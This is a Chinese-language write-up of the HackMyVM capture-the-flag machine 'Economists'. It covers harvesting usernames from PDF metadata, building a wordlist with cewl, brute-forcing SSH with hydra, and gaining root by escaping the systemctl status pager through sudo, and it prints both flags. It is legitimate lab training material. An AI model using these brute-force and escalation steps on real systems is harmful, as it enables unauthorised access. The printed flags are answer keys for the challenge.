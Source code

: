 # Economists

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Economists

[video](https://www.bilibili.com/video/BV1fKXMYxEw5/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

80 上没看到信息，文件都是静态 html 文件没有接口。

ftp 可匿名登陆，都是 pdf 文件，看看 pdf 文件的元数据信息吧，就发现了几个 author 名字：

```
exiftool *.pdf|grep Author|awk -F ':' '{print $2}'|sed 's/ //g'
joseph
richard
crystal
catherine
catherine
```

有了用户名，现在就是需要一个密码字典，先使用 cewl 收集一下 web 上的单词作为密码字典：

```
cewl -w pass.txt -d 3 http://192.168.5.40/
```

然后对 ssh 进行爆破

```
hydra -t 64 -L user -P pass.txt ssh://192.168.5.40

[22][ssh] host: 192.168.5.40   login: joseph   password: wealthiest
```

ssh 进行登陆，先得到了 user flag:

```
joseph@elite-economists:~$ cat user.txt
Flag: HMV{37q3p33CsMJgJQbrbYZMUFfTu}
```

sudo -l 显示 /usr/bin/systemctl status 执行之后页面很长，显示的类似于 less 查看长文件时，这里就可以使用类似于 less 中的提权 !/bin/bash 拿到最终 flag:

```
root@elite-economists:~# cat root.txt
Flag: HMV{NwER6XWyM8p5VpeFEkkcGYyeJ}
```
